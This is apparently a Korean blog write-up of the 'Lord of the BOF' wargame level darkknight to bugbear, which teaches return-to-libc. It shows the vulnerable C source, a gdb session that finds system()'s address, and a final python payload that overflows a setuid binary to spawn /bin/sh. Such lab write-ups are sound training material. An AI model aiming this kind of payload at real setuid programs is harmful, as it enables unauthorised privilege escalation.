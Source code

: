```yaml
---
title: The Lord of the BOF - darkknight -> bugbear
slug: lob-darkknight
date: 2016-09-08 17:10:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


return to library 개념 이해하기

아래는 문제의 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - bugbear
    - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];
    int i;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack betrayed you!!\n");
        exit(0);
    }

    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

이전 단계까지는 삽입한 쉘코드의 주소를 ret에 넣어서 쉘 권한을 얻어냈었다.

그런데 옛날부터 스택을 이용한 공격은 안된지 오래다.

그래서 RTL을 쓰는데...

ret 영역에는 system 함수 주소를 넣고,
system 함수에 인자로 ebp+8이 될 곳에 "/bin/sh" 문자열의 주소를 넣으면
문제를 풀 수 있다.

```sh
$ cp bugbear augbear
$ ls -l
total 28
-rwxr-xr-x    1 darkknig darkknig    12043 Sep  2 09:05 augbear
-rwsr-sr-x    1 bugbear  bugbear     12043 Mar  8  2010 bugbear
-rw-r--r--    1 root     root          385 Mar 29  2010 bugbear.c
```

gdb랑 core 덤프용으로 bugbear를 augbear로 복사하고

```x86asm
$ gdb augbear -q
(gdb) b main
Breakpoint 1 at 0x8048436
(gdb) r
Starting program: /home/darkknight/augbear

Breakpoint 1, 0x8048436 in main ()
(gdb) print system
$1 = {} 0x40058ae0 <__libc_system>
```

system 함수 주소를 알아내고

그리고 x/10000s 쳐서 "/bin/sh"를 찾아서 풀었다.

아래는 페이로드

```sh
./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40"'`
```

